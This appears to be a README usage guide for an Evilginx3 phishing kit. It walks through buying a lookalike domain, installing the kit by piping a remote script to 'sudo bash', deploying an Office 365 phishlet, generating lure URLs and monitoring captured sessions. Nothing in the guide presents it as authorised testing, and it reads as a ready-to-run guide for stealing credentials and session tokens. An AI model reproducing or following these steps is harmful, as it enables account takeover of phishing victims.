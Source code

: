 ## 📋 Step-by-Step Usage Guide

### Step 1: Initial Setup

1. **Get a Domain**: Purchase a domain name (e.g., `securelogin-portal.com`)
2. **Get a Server**: Rent a VPS (DigitalOcean, AWS, etc.)
3. **Point Domain to Server**: Update DNS A records to point to your server's IP

### Step 2: Install Evilginx3

```bash
# Quick installation
curl -sSL https://raw.githubusercontent.com/brooksjoey/EVILGINX3/main/one_cmd_deploy.sh | sudo bash
```

### Step 3: Configure DNS (Automatic)

```bash
# For Cloudflare users
CLOUDFLARE_API_TOKEN=your_token DNS_PROVIDER=cloudflare ./tools/dns_autoconfig.sh

# For manual setup (shows you what records to create)
DNS_PROVIDER=manual ./tools/dns_autoconfig.sh
```

### Step 4: Set Up Security

```bash
# Complete security hardening
sudo ./tools/security_hardening.sh all
```

### Step 5: Create Phishing Campaign

```bash
# Deploy a phishlet (e.g., Office 365)
./tools/phishlet_deploy.sh

# Generate lure URLs
./tools/lure_generator.sh

# Start session monitoring
./tools/session_manager.sh monitor
```

### Step 6: Monitor Results

```bash
# Check captured sessions
./tools/session_manager.sh stats

# View security status
./tools/security_hardening.sh status

# Check system health
python3 daemon_manager.py status
```
